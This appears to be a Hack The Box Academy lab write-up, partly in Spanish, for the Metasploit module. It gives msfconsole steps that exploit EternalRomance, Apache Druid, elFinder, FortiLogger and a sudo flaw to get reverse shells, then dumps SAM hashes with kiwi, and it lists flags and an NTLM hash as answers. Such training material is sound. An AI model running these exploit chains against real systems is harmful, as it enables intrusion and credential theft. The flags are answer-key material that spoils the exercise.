






# Using the Metasploit Framework

## Introduction

### Introduction to Metasploit

1. **Which version of Metasploit comes equipped with a GUI interface?**

answer: **Metasploit Pro**

2. **What command do you use to interact with the free version of Metasploit?**

answer: **msfconsole**

## MSF Components

### Modules

1. **Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.**

```
msfconsole -q
search eternalromance
use 0
```

<p align="center"> 

</p>

```
set LHOST 10.10.14.10
set RHOSTS 10.129.22.31
run
```

<p align="center"> 

</p>

```
shell
cd / 
type Users/Administrator/Desktop/flag.txt
```

answer: **HTB{MSF-W1nD0w5-3xPL01t4t10n}**

### Payloads

1. **Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.**

```
msfconsole -q
reaload_all
search druid
use 0
set LHOST 10.10.14.10 #Mi ipp
set RHOSTS 10.129.203.52 #Ip Objetivo
set RPORT 8081 #puerto donde reside la pagina del ip objetivo
run
```

<p align="center"> 

</p>

```
shell
cd /
cat root/flag.txt
```

answer: **HTB{MSF_Expl01t4t10n}**

## MSF Sessions

1. **The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?**

Podemos encontrar la respuesta con la herramienta nmap o whatweb. 

```
nmap -A 10.129.22.62
whatweb http://10.129.22.62/      
```

<p align="center"> 

</p>

answer: **elFinder**

2. **Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?**

```
msfconsole -q 
reload_all 
search elFinder
use 3
set RHOSTS 10.129.22.62
set LHOST 10.10.14.10
run
```

<p align="center"> 

</p>

answer: **www-data**

3. **The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.**

Manteniendonos en la sesion abierta en el ejercicio anterior, lanzamos el siguiente comando

```
sudo -l
```

sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper

A continuación queremos saber la versión de sudo

```
sudo -V
```

Sudoers policy plugin version 1.8.31

```
control + z
background 
search sudo 1.8.31
use 0
```

<p align="center"> 

</p>

```
set SESSIONS 1
set LHOST 10.10.14.10
run
```

<p align="center"> 

</p>

answer: **HTB{5e55ion5_4r3_sw33t}**

### Meterpreter

1. **Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?**

```
nmap 10.129.203.65 -A
```

<p align="center"> 

</p>

```
msfconsole -q
reload_all
search FortiLogger
use 0
```

<p align="center"> 

</p>

```
set RHOSTS 10.129.203.65
set LHOST 10.10.14.10
run 
```

<p align="center"> 

</p>

```
shell
whoami
```

answer: **nt authority\system**

2. **Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.**

En la sesion anterior tenemos que volver a meterpreter, por tanto escribiremos: 

```
control + z
```

En la sesión de meterpreter, escribiremos:

```
load kiwi
lsa_dump_sam
```

<p align="center"> 

</p>

answer: **cf3a5525ee9414229e66279623ed5c58**

**Tener en cuenta que yo he obtenido el hash NTLM de htb-student porque el que lo ejecuto tiene los máximos privilegios, es decir, un usuario normal no hubiera podido.**